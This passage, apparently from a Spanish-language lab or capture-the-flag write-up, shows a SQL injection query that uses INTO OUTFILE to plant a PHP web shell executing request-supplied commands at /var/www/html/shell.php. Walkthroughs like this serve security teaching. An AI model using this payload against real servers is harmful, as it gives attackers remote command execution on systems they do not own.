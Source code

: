 Por lo que comprobamos que disponemos de subida de archivos en el servidor.

## Intrusión

Una vez conocida que disponemos de la carga de archivos podemos enviar el payload para lanzar un webshell.

Utilizando la query:

```bash
' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

![Untitled](/assets/img/Validatio/Untitled23.png)

![Untitled](/assets/img/Validatio/Untitled24.png)
